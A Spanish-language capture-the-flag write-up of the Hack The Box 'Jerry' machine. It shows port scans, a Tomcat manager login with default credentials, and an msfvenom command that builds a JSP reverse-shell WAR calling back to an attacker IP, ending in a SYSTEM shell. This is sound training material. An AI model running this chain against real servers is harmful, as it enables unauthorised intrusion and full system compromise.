



+++
author = "Andrés Del Cerro"
title = "Hack The Box: Jerry Writeup | Easy"
date = "2024-07-27"
description = ""
tags = [
    "HackTheBox",
    "Jerry",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "Abusing Tomcat",
    "Information Leakage",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
]

+++

# Hack The Box: Jerry Writeup
Bienvenidos a mi writeup detallado de la máquina fácil **"Jerry"** de Hack The Box. En este writeup vamos a resolver la máquina mas fácil de toda la plataforma probablemente. ¡Vamos a ello!

# TCP Enumeration
```shell
$ rustscan -a 10.129.136.9 --ulimit 5000 -g
10.129.136.9 -> [8080]
```

# UDP Enumeration
No encontramos nada por UDP
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.136.9 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:03 CEST
Nmap scan report for 10.129.136.9
Host is up.
All 1500 scanned ports on 10.129.136.9 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Detectamos que por el puerto `8080/TCP` hay un servicio web, y es un Tomcat.
```shell
$ nmap -p8080 -sCV 10.129.136.9 -Pn -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:02 CEST
Nmap scan report for 10.129.136.9
Host is up (0.038s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
```

Dirigiendonos a una ruta típica en los Tomcats..
`http://10.129.136.9:8080/manager` intentamos poner admin:admin de credenciales y nos devuelve un código de estado 403, acceso denegado.

Nos devuelve también las típicas credenciales por defecto de tomcat.
```XML
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

Y probando estas credenciales...


Ahora simplemente quedaría subir un archivo `war` malicioso ya que tiene pinta que tenemos privilegios para subirlo.

Con `msfvenom` creamos el `war` malicioso.
```shell
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.71 LPORT=443 -f war > reverse.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

Lo subimos al tomcat..


Nos ponemos en escucha por el puerto 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora visitamos la aplicación maliciosa desplegada..


Y hemos ganado consola... ¿como `nt authority\system`?

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Vemos un directorio flags..
```cmd
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
```

Y un archivo llamado `2 for the price of 1.txt`

Sin duda esta ha sido la máquina mas fácil que he resuelto en mi vida...
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854...

root.txt
04a8b36e1545a4...
```